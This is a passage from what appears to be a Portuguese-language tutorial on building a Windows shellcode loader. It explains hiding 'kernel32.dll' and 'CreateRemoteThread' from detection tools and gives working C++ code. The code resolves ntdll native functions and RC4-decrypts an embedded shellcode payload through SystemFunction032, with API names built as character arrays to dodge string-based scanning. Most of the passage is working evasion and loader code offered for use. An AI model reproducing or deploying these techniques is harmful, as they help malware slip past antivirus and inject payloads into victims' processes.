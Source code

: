 Esse método oculta o nome da DLL `kernel32.dll` e o nome da função `CreateRemoteThread` de uma forma que dificulta a leitura direta do código. isso pode ajudar a evitar detecções por ferramentas automatizadas que buscam por strings conhecidas.

Função `GetNtFunction`:
Esta nossa função carrega funções da biblioteca `ntdll.dll`, que contém APIs nativas do Windows:

```cpp
template<typename T>
T GetNtFunction(const char* funcName) {
    HMODULE ntdll = GetModuleHandleW(L"ntdll.dll");
    if (!ntdll) {
        SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
        std::cerr << "[!] Falha ao obter identificador para ntdll.dll" << std::endl;
        return nullptr; // Tratamento de erro se a DLL não for encontrada
    }
    return reinterpret_cast<T>(GetProcAddress(ntdll, funcName));
}
```

Vamos, obviamente, fornecer a parte do código responsável por descriptografar nossa shellcode:

```cpp
typedef struct _USTRING {
	ULONG Length;
	ULONG MaximumLength;
	PWSTR Buffer;
} USTRING;

typedef LONG NTSTATUS;

typedef NTSTATUS(NTAPI* fnSystemFunction032)(
	USTRING* Img,
	USTRING* Key
	);

BOOL RC4DEC(IN PBYTE pRc4Key, IN PBYTE pPayloadData, IN DWORD dwRc4KeySize, IN DWORD sPayloadSize) {
	NTSTATUS STATUS;
	USTRING Key = { dwRc4KeySize, dwRc4KeySize, reinterpret_cast<PWSTR>(pRc4Key) };
	USTRING Img = { sPayloadSize, sPayloadSize, reinterpret_cast<PWSTR>(pPayloadData) };
	char a_dll_name[] = { 'A','d','v','a','p','i','3','2',0 };
	char NotSysFunc32[] = { 'S','y','s','t','e','m','F','u','n','c','t','i','o','n','0','3','2',0 };
	fnSystemFunction032 SystemFunction032 = (fnSystemFunction032)GetProcAddress(LoadLibraryA(a_dll_name), NotSysFunc32);

	STATUS = SystemFunction032(&Img, &Key);
	if (STATUS != 0x0) {
		return FALSE;
	}
	return TRUE;
}
```
